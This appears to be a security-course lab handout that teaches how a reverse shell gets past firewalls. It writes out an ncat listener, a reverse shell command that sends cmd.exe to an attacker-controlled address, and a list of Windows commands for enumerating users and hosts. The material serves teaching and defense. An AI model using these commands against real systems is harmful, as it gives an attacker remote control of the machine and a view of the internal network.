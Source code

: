 # Reverse Shell


## Objective

Learn how attackers can bypass firewalls when there is no direct communication from the attacker’s computer to the victim’s computer.


## Discussion

In this scenario, the attacker has control over their computer so that is why the attacker disables their firewall.  It is to simulate the attacker can decide which port to use and open on their system.

This attack is how phishing campaigns work that trick someone into opening a document and the attacker obtains a shell on their computer.  The victim is behind a corporate firewall so Even CANNOT connect directly to Alice.  Instead, Alice is tricked into opening a document that connects back to Eve’s computer.


## Scenario

Alice is behind a firewall so Eve can't connect directly to her computer.


## Preparation



1. **Alice, change your Windows 10 Network Adapater and set it back to your *LAN* segment.**
2. **Alice enable your Windows 10 firewall.**
3. **Eve, keep your Windows 10 Network Adapater on the NETSEC-WAN segment.**

**NOTE: When you switch roles, don’t forget to change your network adapters accordingly.**


## Starting the Lab

Eve will start her listener:

Eve (run the command):  **ncat -l 8080 -vv**

Alice connects to Eve and gives her computer’s command prompt to Eve.  The **-e **means execute.  In this case, when Alice connects to Eve, Alice will execute the command **cmd.exe** and push the (command prompt aka shell) over to Eve.

Alice: **ncat -vv X.X.X.X 8080 -e cmd.exe**

Eve should see something like this on her screen:

**Microsoft Windows [Version 6.1.7601]**

**Copyright (c) 2009 Microsoft Corporation.  All rights reserved.**

**c:\Program Files\Nmap>**

You can check by typing:

**ipconfig**

and it should print the IP address of Alice’s computer.

Type some other commands used to enumerate a remote computer. NOTE: Don’t type the # and test.  Type the commands in bold.

## Get the list of local users

**net users**

## Enumerate other hosts

**net view**

## Enumerate users on the domain

**net users /DOMAIN**

## List running processes

**tasklist**

## List of services

**tasklist /svc**

## hosts communicated with allows enumeration of the internal systems without special tools like nmap

**arp -a**

## Get installed software versions

## WMIC commands may take a few seconds to show output

**wmic product get name, version, installlocation**

## Running process details

**wmic process**

## OS Details

**wmic os**

## User account details

**wmic useraccount**

## Detailed host information

**systeminfo**

All the commands you are running is part of the process of **enumeration**.  If an attacker can run these types of arbitrary commands, they are beginning the process of scoping out your organization. 

**BE SURE YOU UNDERSTAND HOW THIS WORKS.**

This evades most firewalls because most firewalls are configured to allow any outbound traffic.  Since Eve controls the computer on her end, she can allow Alice to connect to any port on her computer.  Even if Alice is behind a restrictive firewall that allows port 80 outbound, Eve can allow her to connect to her computer on Port 80 using the same commands above, except 8080 will become 80.

This is similar to how Malware works.  It executes a command and connects back to the attacker's computer system.  Just as in the command above, the malware can push the victim's shell back to the attacker.
